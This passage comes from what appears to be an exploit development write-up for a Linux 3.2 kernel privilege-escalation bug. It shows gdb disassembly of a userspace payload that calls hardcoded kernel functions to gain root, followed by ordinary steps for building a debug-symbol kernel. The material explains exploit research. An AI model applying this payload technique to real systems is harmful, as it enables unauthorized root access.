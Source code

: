 Looking at the PoC running under gdb you can see that the address where the instruction pointer
(with value ``0x000000008ffffbfe``) raises a [double fault](https://en.wikipedia.org/wiki/Double_fault)
is in our code in **userspace**!

```
gef➤  x/30i tmp - 15
   0x8ffffbf1:  nop
   0x8ffffbf2:  nop
   0x8ffffbf3:  swapgs               <--- tmp - 13
   0x8ffffbf6:  call   0x8ffffc00
   0x8ffffbfb:  swapgs 
   0x8ffffbfe:  iretq                <--- end 2nd memcpy()
   0x8ffffc00:  push   rbp           <--- start payload
   0x8ffffc01:  mov    rbp,rsp
   0x8ffffc04:  sub    rsp,0x20
   0x8ffffc08:  mov    QWORD PTR [rbp-0x8],0xffffffff81dd70e8
   0x8ffffc10:  mov    rax,QWORD PTR [rbp-0x8]
   0x8ffffc14:  mov    DWORD PTR [rax],0xffffffff
   0x8ffffc1a:  mov    QWORD PTR [rbp-0x10],0xffffffff81091630
   0x8ffffc22:  mov    QWORD PTR [rbp-0x18],0xffffffff810918e0
   0x8ffffc2a:  mov    rax,QWORD PTR [rbp-0x18]
   0x8ffffc2e:  mov    edi,0x0
   0x8ffffc33:  call   rax
   0x8ffffc35:  mov    rdx,rax
   0x8ffffc38:  mov    rax,QWORD PTR [rbp-0x10]
   0x8ffffc3c:  mov    rdi,rdx
   0x8ffffc3f:  call   rax
   0x8ffffc41:  nop
   0x8ffffc42:  leave  
   0x8ffffc43:  ret
```

and the stack pointer is located into the **interrupt description table**. By the way,
this is nothing new, it's explained in the original write up.

As it is, it's useless, we need to safely land in user space and launch something
useful to exploit the system.

In order to understand how to fix this we need a kernel with debugging symbols and
I gonna compile it from source.

## Building a kernel with debugging symbols

Using the links indicated below is possible to download and patch
the kernel source code to obtain what is used to generate the
package with the kernel in the original ubuntu installation:

```
$ wget https://launchpad.net/ubuntu/+archive/primary/+files/linux_3.2.0.orig.tar.gz
$ tar zxvf linux_3.2.0.orig.tar.gz
$ wget https://launchpad.net/ubuntu/+archive/primary/+files/linux_3.2.0-23.36.diff.gz
$ cd linux-3.2
$ patch -p1 < ../linux_3.2.0-23.36.diff
```

